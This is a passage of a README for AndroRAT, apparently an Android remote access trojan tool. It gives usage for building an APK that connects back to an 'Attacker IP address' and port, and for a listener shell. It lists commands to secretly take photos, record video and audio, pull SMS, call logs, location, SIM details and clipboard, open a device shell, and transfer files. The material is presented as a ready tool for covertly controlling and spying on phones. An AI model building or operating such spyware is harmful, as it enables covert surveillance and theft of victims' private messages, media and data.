 You can circumvent this by setting `core.longpaths` to `true`.

> git config --system core.longpaths true

You must run Git bash with administrator privileges. 

## Usage (Windows and Linux)
### Available Modes
* `--build` - for building the android apk 
* `--shell` - getting an interactive shell of the device
### `build` mode
```
Usage:
  python androRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
```
Or you can manually build the apk by importing [Android Code](https://github.com/karma9874/AndroRAT/tree/master/Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](https://github.com/karma9874/AndroRAT/blob/master/Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python androRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```
